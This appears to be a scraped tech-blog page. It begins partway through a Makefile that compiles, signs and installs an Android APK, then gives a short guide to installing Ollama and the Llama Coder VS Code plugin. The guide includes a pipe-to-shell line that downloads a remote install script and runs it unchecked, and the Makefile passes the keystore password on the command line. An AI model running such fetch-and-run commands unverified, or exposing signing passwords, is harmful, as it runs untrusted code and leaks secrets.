-I $(ANDROIDJAR) \
--generate-dependencies
# Build java classes
java: res
mkdir -p $(BUILD_DIR)/obj
javac --class-path $(ANDROIDJAR) \
-source 1.8 \
-target 1.8 \
-d $(BUILD_DIR)/obj \
$(JAVA_SRC_DIR)/com/example/myapp/*.java
# Build classes.dex from java classes
$(BUILD_DIR)/bin/classes.dex: java
mkdir -p $(BUILD_DIR)/bin
$(D8) --classpath $(ANDROIDJAR) \
--output $(BUILD_DIR)/bin/ \
./build/obj/com/example/myapp/*.class
# Build APK with classes.dex and resources
$(BUILD_DIR)/$(TARGET).unaligned: $(BUILD_DIR)/bin/classes.dex $(MANIFEST)
$(AAPT) package \
-f \
-F $(BUILD_DIR)/$(TARGET).unaligned \
-S $(RES_DIR) \
-M $(MANIFEST) \
-I $(ANDROIDJAR) \
$(BUILD_DIR)/bin
# Sign APK
$(TARGET): $(BUILD_DIR)/$(TARGET).unaligned $(KEYSTORE)
$(ZIPALIGN) -f -p -z 4 \
$(BUILD_DIR)/$(TARGET).unaligned \
$(BUILD_DIR)/$(TARGET).unsigned
$(APKSIGNER) sign --ks $(KEYSTORE) --ks-pass pass:$(KS_PASSWORD) $(BUILD_DIR)/$(TARGET).unsigned
mv $(BUILD_DIR)/$(TARGET).unsigned $(TARGET)
install: $(TARGET)
adb install $(TARGET)
uninstall:
adb uninstall com.example.myapp
clean:
find app -name "R.java" -delete
rm -rf $(BUILD_DIR)
rm -rf $(TARGET)
Llama Coder – The Ollama Copilot Integrated with VS Code
Ollama – Guide to running LLM models locally
- Install Ollama
$ curl -fsSL https://ollama.com/install.sh | sh
- Test
Ollama
$ ollama --help
Llama Coder – The Ollama Copilot Integrated with VS Code
- Install Llama Coder plugin
Name: Llama Coder
Id: ex3ndr.llama-coder
Description: Better and self-hosted Github Copilot replacement
Version: 0.0.14
Publisher: Steve Korshakov
VS Marketplace Link: https://marketplace.visualstudio.com/items?itemName=ex3ndr.llama-coder